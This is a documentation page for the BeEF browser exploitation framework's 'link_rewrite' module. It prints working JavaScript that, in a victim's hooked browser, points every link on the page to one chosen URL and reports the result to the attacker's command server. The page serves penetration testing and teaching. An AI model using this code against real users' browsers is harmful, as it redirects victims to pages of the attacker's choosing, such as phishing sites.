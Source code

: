 ## Summary

* **Objective**: Rewrite all links to one URL
* **Authors**: passbe
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/link_rewrite)

## Internal Working

Simply replaces all href elements in `<a>` tags.

```js

beef.execute(function() {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinks('<%= @url %>')+' links rewritten to <%= @url %>');
});


//rewriteLinks function

rewriteLinks: function(url, selector) {
        var sel = (selector == null) ? 'a' : selector;
        return $j(sel).each(function() {
                if ($j(this).attr('href') != null)
                {
                        $j(this).attr('href', url).click(function() { return true; });
                }
        }).length;
},

```

## Feedback
